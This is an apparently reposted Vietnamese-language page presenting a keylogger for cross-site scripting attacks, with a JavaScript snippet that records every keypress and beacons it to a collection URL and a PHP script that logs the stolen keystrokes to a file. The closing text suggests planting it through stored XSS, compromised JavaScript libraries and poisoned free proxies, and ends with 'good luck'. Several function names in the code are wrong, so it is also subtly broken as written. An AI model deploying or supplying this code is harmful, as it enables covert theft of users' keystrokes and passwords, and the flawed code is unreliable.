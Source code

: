```yaml
---
title: Javascript,PHP Keylogger
date: 30/5/2021
layout: single

--- 
```

---
## Credits: Ismailtasdelen
[Nguồn](https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf) 
## Language
[![Language](https://img.shields.io/badge/Lang-javascript-blue.svg)](https://www.javascript.com/)
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)


--- 

## Mã Kiểm Tra 
---
# Javascript

```js
var buffer = [];
var url = 'http://localhost/?q='

document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
          k: e.key,
          t: timestamp
    };
    buffer.push(stroke);
}

window.SetInterval(function() {
    if (buffer.length > 0) {
          var data = encodeURIComponent(JSON.stringify(buffer));
          new Image().src = url + data;
          buffer = [];
    }
}, 200);
```
---
---
# PHP

```php
<?php
if(!empty($_GET['q'])) {
    $logfile = fopen('data.txt', 'a+');
    file_write($log_file, $_GET['q']);
    file_close($log_file);
}
?>

```
---


# Mô Tả 
## Làm thế nào nó hoạt động?
Trên trình kích hoạt: onkeypress. Phím được nhấn bởi máy khách sẽ được gửi đến máy chủ trên localhost /? Q = (key_here)
Máy chủ sẽ nhận điều này thông qua tập lệnh PHP: Nhận đầu vào từ Q và ghi vào tệp.

Những cải tiến có thể được thực hiện: Ví dụ: triển khai websockets, Ajax, v.v. và gửi dữ liệu trong thời gian thực.

## Tôi có thể sử dụng cái này ở đâu?
XSS được lưu trữ trên các trang web? Thỏa hiệp các thư viện / trang web JS và nhúng JS độc hại.
Chạy proxy miễn phí của riêng bạn và đầu độc người dùng bằng JS độc hại (và bộ nhớ cache) Xem tại link bên dưới 
- https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html
- https://blog.haschek.at/2015-analyzing-443-free-proxies

Tạo khối lượng phần mềm độc hại của riêng bạn với HTA: html có thể thực thi, v.v.
Chỉ là một số ý tưởng.

## Chúc May Mắn :D
